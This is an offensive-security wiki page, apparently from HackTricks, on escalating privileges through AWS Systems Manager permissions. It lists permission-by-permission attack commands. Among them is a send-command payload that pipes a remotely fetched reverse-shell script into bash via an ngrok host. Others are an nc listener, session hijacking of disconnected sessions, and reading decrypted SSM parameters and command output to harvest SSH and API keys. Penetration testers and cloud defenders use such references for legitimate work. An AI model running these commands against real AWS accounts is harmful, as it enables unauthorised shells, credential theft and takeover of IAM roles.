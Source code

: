 # AWS - SSM Privesc

{{#include ../../../banners/hacktricks-training.md}}

## SSM

For more info about SSM check:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/
{{#endref}}

### `ssm:SendCommand`

An attacker with the permission **`ssm:SendCommand`** can **execute commands in instances** running the Amazon SSM Agent and **compromise the IAM Role** running inside of it.

```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```

In case you are using this technique to escalate privileges inside an already compromised EC2 instance, you could just capture the rev shell locally with:

```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
   --document-name "AWS-RunShellScript" --output text \
   --parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances with SSM Agents running.

### `ssm:StartSession`

An attacker with the permission **`ssm:StartSession`** can **start a SSH like session in instances** running the Amazon SSM Agent and **compromise the IAM Role** running inside of it.

```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```

> [!CAUTION]
> In order to start a session you need the **SessionManagerPlugin** installed: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances with SSM Agents running.

#### Privesc to ECS

When **ECS tasks** run with **`ExecuteCommand` enabled** users with enough permissions can use `ecs execute-command` to **execute a command** inside the container.\
According to [**the documentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) this is done by creating a secure channel between the device you use to initiate the “_exec_“ command and the target container with SSM Session Manager. (SSM Session Manager Plugin necesary for this to work)\
Therefore, users with `ssm:StartSession` will be able to **get a shell inside ECS tasks** with that option enabled just running:

```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```

![](<../../../images/image (185).png>)

**Potential Impact:** Direct privesc to the `ECS`IAM roles attached to running tasks with `ExecuteCommand` enabled.

### `ssm:ResumeSession`

An attacker with the permission **`ssm:ResumeSession`** can re-**start a SSH like session in instances** running the Amazon SSM Agent with a **disconnected** SSM session state and **compromise the IAM Role** running inside of it.

```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
    --session-id Mary-Major-07a16060613c408b5
```

**Potential Impact:** Direct privesc to the EC2 IAM roles attached to running instances with SSM Agents running and disconected sessions.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

An attacker with the mentioned permissions is going to be able to list the **SSM parameters** and **read them in clear-text**. In these parameters you can frequently **find sensitive information** such as SSH keys or API keys.

```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```

**Potential Impact:** Find sensitive information inside the parameters.

### `ssm:ListCommands`

An attacker with this permission can list all the **commands** sent and hopefully find **sensitive information** on them.

```
aws ssm list-commands
```

**Potential Impact:** Find sensitive information inside the command lines.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

An attacker with these permissions can list all the **commands** sent and **read the output** generated hopefully finding **sensitive information** on it.

```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```

**Potential Impact:** Find sensitive information inside the output of the command lines.

### Codebuild

You can also use SSM to get inside a codebuild project being built:

{{#ref}}
aws-codebuild-privesc.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}



